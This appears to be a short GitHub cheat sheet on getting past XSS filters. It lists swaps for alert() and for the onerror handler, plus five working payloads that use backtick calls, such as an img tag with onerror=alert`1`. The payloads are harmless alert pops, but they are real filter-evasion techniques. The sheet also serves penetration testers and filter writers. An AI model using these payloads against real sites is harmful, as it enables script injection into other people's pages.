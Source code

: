 # XSS Filters Bypass.

if You Are New then You Can Read the basics here :-https://fanimalikhack.medium.com/xss-powerful-methodology-for-beginners-797633a2efd0


* ```alert()``` Alternatives
```
   1)Use confirm() Not alert()
   2)Use prompt() Not alert()
   3)Use console.log() Not alert()
   4)use eval() Not alert()
```

* ```onerror``` Event Handler Alternatives
```
   1)Use onload
   2)Use onfocus
   3)Use onmouseover
   4)Use onblur
   5)Use onclick
   6)Use onscroll   
```
* Note:- if () get filtered then Use \`\` Rather then () , Some Examples Are Below

```
   1)<script>alert`1`</script>
   2)<img src=x onerror=alert`1`>
   3)<img src=x onerror=prompt`1`>
   4)javascript:prompt`1`
   5)javascript:alert`1`
```

## Twitter:[@fanimalikhack](https://twitter.com/fanimalikhack/)
